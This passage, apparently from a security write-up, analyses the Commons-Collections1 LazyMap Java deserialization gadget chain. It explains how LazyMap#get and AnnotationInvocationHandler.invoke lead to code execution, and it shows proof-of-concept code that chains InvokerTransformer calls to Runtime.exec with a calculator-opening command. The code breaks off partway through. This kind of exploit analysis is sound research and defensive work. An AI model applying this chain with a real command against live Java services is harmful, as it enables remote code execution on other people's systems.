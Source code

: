 ```java

        try {
            // Serialization
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(invocationHandler);
            objectOutputStream.close();

            // Deserialization
            ByteArrayInputStream byteAr
rayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
<img src="./images/11.png" alt="">

# Commons-Collections1-LazyMap Analysis
> The core point is in `LazyMap#get`, `LazyMap` will try to call the `this.factory.transform` method when there is no `key`, and `this.factory` can be specified as a `Transformer` object, and the `transform` method parameter will be ignored, so you only need to find a method that calls `LazyMap.get`

<img src="./images/12.png" alt="">

> Here the `invoke()` method of the `AnnotationInvocationHandler` class can trigger `this.memberValues` to call the `get` method, thereby triggering `LazyMap#get`

<img src="./images/13.png" alt="">

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsLazyMap {

    public static void main(String[] ars) throws ClassNotFoundException ,InstantiationException, IllegalAccessException, InvocationTargetException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
```